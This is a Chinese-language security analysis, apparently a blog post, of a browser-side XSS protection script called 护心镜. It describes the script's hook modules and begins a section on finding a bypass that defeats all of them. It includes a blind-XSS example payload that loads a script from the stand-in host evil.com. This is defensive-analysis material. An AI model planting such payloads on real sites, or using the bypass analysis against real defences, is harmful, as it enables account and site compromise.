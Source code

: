 举个例子：当一个 XSSer 对某后台进行盲打时，嵌入了一串代码：

```
<script src=//evil.com/evil.js></script>

```

当管理员登录后台时候触发了这串代码，由于加载了“evil.com”这个未知域名的 js 脚本，护心镜弹出危险警告，在用户确认后对脚本进行阻拦。

从之后的代码分析中了解，HOOK 函数实现了以下功能：

| 模块 | 功能 |
| --- | --- |
| Hook_CreateElement | 对 CreateElement 方法进行 Hook |
| Hook_Image | 对Image对象产生的实例进行 Setter 和 Getter 的 Hook |
| Hook_Source | 对页面 DOM 进行监控，对新生成的标签进行来源检测 |
| Hook_Attribute | 对元素的 setAttribute 方法进行 Hook |
| Hook_Element | 对元素的 Setter 和 Getter 进行 Hook |
| Hook_Cookie | 对 Cookie 的读写接口进行了 Hook |
| Hook_Xsstester | 对常见的 alert、prompt 方法等进行 Hook |
| Hook_CSRFWebshell | 对通过 CSRF 上传 Webshell 进行拦截 |
| Send | 对护心镜接口发送报告 |

0x02 快速寻找通杀之法
=============

* * *

扫一遍代码，发现每个模块都有相应的弱点，但在那之前，

每个人都想知道快速通杀所有模块的方法，那么如何快速找到通杀方法？

最好的方式是看看他们有什么共通点：

（由于只有4个模块涉及拦截，那么就看看他们是怎么实现的）

```
+ Hook_CreateElement
  1. 重写document.createElement
  2. 重写createElement创建元素的setter和getter
  3. 对Setter进行tag（标签）匹配，然后通过Check_domain进行白名单匹配
  4. 通过confirm通知，确定是否拦截
+ Hook_Image
  1. 重写Image
  2. 重写new Image 对象的getter和setter
  3. Check_domain白名单匹配
  4. 通过confirm通知，确定是否拦截
  5. 若不拦截：通过this.setAttribute实现 Setter 的赋值
+ Hook_Source
  1. 通过 MutationObserver 对 DOM 进行监听
  2. 一旦 DOM 发生变化，对新增 Nodes（节点）进行校验
  3. 通过tag匹配和Check_domain白名单匹配
  4. 通过confirm通知，确定是否拦截
  5. 若拦截则删除该节点，否则放行
+ Hook_CSRFWebshell
  1. 重写 XMLHttpRequest.prototype.send
  2. 正则匹配白名单
  3. 通过confirm通知，确定是否拦截

```
